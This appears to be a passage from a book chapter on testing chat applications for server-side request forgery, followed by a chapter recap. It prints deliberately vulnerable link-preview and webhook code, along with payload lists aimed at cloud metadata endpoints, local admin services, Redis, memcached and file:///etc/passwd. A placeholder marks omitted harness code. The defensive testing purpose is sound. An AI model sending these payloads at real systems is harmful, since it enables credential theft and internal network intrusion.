Chat applications frequently fetch external content to enhance user experience: link previews for shared URLs, webhook integrations with external services, avatar image fetching from user-provided URLs, and integration with external APIs for rich content display. These features create opportunities for Server-Side Request Forgery attacks when your application makes requests based on user-controlled input.

Consider your link preview functionality. Users share URLs in chat conversations, and your application automatically fetches webpage content to display rich previews with titles, descriptions, and images. This feature improves user experience by providing context about shared links without requiring users to navigate away from the chat interface.

[,javascript]
----
const axios = require('axios');

async function generateLinkPreview(url) {
    try {
        // User controls the URL through chat message input
        const response = await axios.get(url, {
            timeout: 5000,
            maxRedirects: 3
        });

        const preview = extractPreviewData(response.data);
        return preview;
    } catch (error) {
        return null;
    }
}
----

This implementation appears secure with reasonable timeout and redirect limits. Your application validates that user input represents a valid URL format and implements basic protection against obvious malicious requests. The functionality works correctly for legitimate web URLs that users typically share.

But SSRF attacks exploit the trust relationship between your chat server and internal network resources. When your application makes requests based on user input, attackers can target internal services, cloud metadata endpoints, or network resources that should remain inaccessible from external networks.

An attacker shares this URL in a chat message:

----
http://169.254.169.254/latest/meta-data/iam/security-credentials/
----

Your link preview system faithfully fetches this URL, but instead of accessing external web content, the request targets the AWS instance metadata service. The response contains temporary security credentials for your cloud infrastructure, which the attacker can extract from the preview data or error messages returned by your application.

Similar attacks target internal administrative interfaces, database management systems, or service discovery endpoints:

[,javascript]
----
const ssrfPayloads = [
    "http://localhost:3000/admin/users",        // Internal admin interface
    "http://127.0.0.1:6379/",                   // Redis database
    "file:///etc/passwd",                       // Local file access
    "gopher://localhost:11211/stats",           // Memcached access
    "dict://localhost:3306/",                   // MySQL protocol
    "http://[::1]:8080/health",                 // IPv6 localhost
];
----

Your webhook integration system presents another SSRF vector. Chat applications often allow administrators to configure webhook URLs for integration with external services. These webhooks receive notifications about chat events, user activities, or administrative actions.

[,javascript]
----
// Webhook configuration through admin interface
async function configureWebhook(webhookConfig) {
    const testPayload = { event: 'test', timestamp: Date.now() };

    // Administrator controls webhook URL
    // SSRF occurs during webhook testing or notification delivery
    await axios.post(webhookConfig.url, testPayload);

    saveWebhookConfiguration(webhookConfig);
}
----

When administrators can configure arbitrary webhook URLs, SSRF enables access to internal network resources through your chat server's network position. Administrative webhook configuration becomes a vector for internal network reconnaissance and exploitation.

*Systematic SSRF Discovery*

Traditional testing validates URL handling using standard web URLs that point to legitimate external resources. Developers verify that link previews work correctly, webhook integrations function as expected, and external content fetching provides an appropriate user experience. Testing rarely explores URLs designed to target internal network resources or exploit trust relationships.

[,javascript]
----
// SSRF payload generation targeting chat application URL processing
function generateSSRFPayloads(fuzzer) {
    const internalTargets = [
        // AWS metadata service
        "http://169.254.169.254/latest/meta-data/",
        // Google Cloud metadata
        "http://metadata.google.internal/computeMetadata/v1/",
        // Azure metadata
        "http://169.254.169.254/metadata/instance",
        // Local services
        "http://localhost:3000/admin",
        "http://127.0.0.1:6379/info",
        // IPv6 variants
        "http://[::1]:8080/health",
        // Protocol confusion
        "file:///etc/passwd",
        "gopher://localhost:11211/stats",
        "dict://localhost:3306/",
    ];

    return fuzzer.mutateURLStructures(internalTargets);
}
----

Your chat application's external content fetching provides multiple attack vectors for SSRF testing. Link preview systems process user-provided URLs from chat messages. Webhook integrations make requests to administrator-configured endpoints. Avatar image fetching accesses user-provided image URLs. External API integrations might construct requests based on user input or configuration data.

The generation strategy focuses on URLs that target internal network resources while remaining focused on your chat application's specific external request patterns. Test various internal addressing schemes: localhost variations, private network ranges, cloud metadata endpoints, and protocol confusion attacks. Generate payloads targeting different request libraries and URL parsing implementations.

[PLACEHOLDER: CODE SSRF_Discovery_Harness. Comprehensive harness targeting URL processing in chat link previews, webhook configurations, and external content fetching. Generates SSRF payloads for internal network reconnaissance while monitoring request destinations and response content. High value. Demonstrates systematic discovery of SSRF vulnerabilities in chat application external request handling.]

Detection requires monitoring external request destinations and response content rather than request success or failure. Track whether your application makes requests to internal network addresses, private IP ranges, or cloud metadata endpoints. Verify that URL validation prevents access to unauthorized network resources. Confirm that SSRF attacks access internal resources rather than just causing request errors.

SSRF vulnerabilities become particularly dangerous in chat applications because external content fetching often occurs with elevated network privileges in cloud environments. Internal network access through SSRF enables infrastructure reconnaissance, credential theft, and lateral movement within your deployment environment. A single malicious URL can compromise your entire infrastructure through your chat application's network position.

The systematic approach reveals whether your chat application's external request handling properly validates and restricts request destinations to authorized external resources.

'''

=== *Chapter Recap: Mastering Chat Application Security Through Systematic Testing*

You've developed comprehensive expertise in discovering security vulnerabilities within the chat application code you wrote and control. Beginning with message content injection vulnerabilities that affect user-facing features, you progressed through prototype pollution attacks using real CVEs like dset, authentication bypasses through type confusion, performance traps in input validation, template injection enabling code execution, and SSRF attacks targeting internal networks.

*Your Security Testing Transformation*

The systematic approach fundamentally changes how you think about chat application security. Instead of relying on manual testing to catch security vulnerabilities, you now systematically explore attack vectors specific to chat features: user authentication and room access control, message processing and content rendering, template handling and external content fetching, input validation, and performance characteristics.

Your chat application now benefits from security testing specifically designed for the unique attack surfaces present in real-time communication platforms. Authentication bypass testing targets the room permission logic you implemented. Message injection testing identifies vulnerabilities in the content processing you've designed. Template injection testing reveals code execution risks in the notification systems you built. SSRF testing exposes network access issues in the content fetching that you have architected.

*Chat Application Security Expertise Achieved*

You can now assess your chat application's security posture based on actual implementation architecture rather than generic web application security checklists. Your testing focuses on vulnerabilities in code you control: permission checking functions, message validation logic, template processing components, external request handling, and input validation systems.

This targeted approach provides immediate, actionable results rather than theoretical security advice. You discover authentication bypasses in room access control within minutes of systematic testing. Message rendering vulnerabilities become apparent through systematic injection testing. Template injection risks reveal themselves through systematic payload testing. Each discovery represents a vulnerability you can fix immediately because it exists in code you wrote.

*The Chat Application Security Advantage*

Most chat application developers rely on generic web application security tools that don't understand chat-specific attack vectors: room permission models, real-time message processing, template-based notifications, or external content integration. Your systematic testing approach discovers vulnerabilities specific to chat application features that generic security scanners miss entirely.

While other development teams discover chat application security issues through production incidents, expensive penetration testing, or user reports, you find vulnerabilities during development through systematic testing approaches that run continuously in your development workflow. This early discovery prevents security incidents while maintaining development velocity and user trust.

=== *Next Steps: Scaling Chat Application Security Across Development Teams*

Your chat application now benefits from systematic security testing tailored to real-time communication platform vulnerabilities, but individual security testing efforts need coordination to protect your entire chat application ecosystem. One developer securing their chat features provides immediate value; development as a whole organization, preventing chat application security incidents, creates sustainable competitive advantages.

Chapter 8 demonstrates how to scale the individual chat application security testing techniques you've mastered into automated pipelines serving multiple development teams efficiently. You'll learn how to package chat application security testing capabilities into Docker containers, ensuring consistent testing environments. Additionally, you'll integrate vulnerability discovery into CI/CD systems, maintain development velocity while ensuring security coverage, and build monitoring systems to track security improvements across your entire chat application development portfolio.

The authentication bypass, message injection, and template injection discovery techniques you've learned will scale to organization-wide chat application security programs through automation, orchestration, and intelligent resource management. Your expertise in securing chat application features becomes the foundation for systematic vulnerability prevention across every real-time communication platform your organization deploys.
